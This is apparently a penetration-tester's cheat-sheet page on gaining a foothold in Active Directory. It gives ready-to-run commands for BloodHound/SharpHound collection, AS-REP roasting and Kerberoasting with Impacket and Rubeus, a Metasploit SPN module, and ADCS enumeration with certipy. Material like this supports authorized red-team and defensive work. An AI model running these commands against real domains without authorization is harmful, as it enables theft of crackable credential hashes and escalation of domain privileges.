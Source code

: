 ```yaml
---
description: Enumerate Active Directory from authenticated perspective
---
```


# AD Foothold

## Bloodhound Ingestion

{% tabs %}
{% tab title="Linux (Python Ingestor)" %}
```bash
bloodhound-python -u '$u'@'$d' -p '$p' -c All
```
{% endtab %}

{% tab title="Windows (Official C# Ingestor SharpHound)" %}
```powershell
.\SharpHound.exe --Domain $domain
```


{% endtab %}
{% endtabs %}

analyze in bloodhound CE for escalation paths from owned principals. Redo this as you  &#x20;

## AS-REP Roasting

Accounts that dont have "Kerberos pre-authentication required" enabled are vulnerable. A valid domain account is needed to check for the state of that attribute. If you know an account is vulnerable or want to guess you can request anonymously.

{% tabs %}
{% tab title="Linux (Impacket)" %}
```bash
GetNPUsers.py '$d'/'$u':'$p' -request -format hashcat -outputfile asrephashes
```


{% endtab %}

{% tab title="Windows (Rubeus)" %}
```powershell
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:$u]
```
{% endtab %}
{% endtabs %}

## Kerberoasting

AD service accounts have the "ServicePrincipalName" property set. The TGS can be cracked offline if you have valid AD creds to request it.

{% tabs %}
{% tab title="Linux (Impacket)" %}
```
GetUserSPNs.py -request -dc-ip $dcip '$d'/'$u' -outputfile kerberoasthashes
```
{% endtab %}

{% tab title="Linux (msf)" %}
```
use auxiliary/gather/get_user_spns
```
{% endtab %}
{% endtabs %}

## ADCS Enumeration

{% tabs %}
{% tab title="Linux (certipy)" %}
```
certipy find -u '$u'@'$d' -p '$p' -target $dcip
```
{% endtab %}
{% endtabs %}



## # SCCM Enumeration

TODO: add sccmhunter and how to obtain and crack the NAA join from DHCP
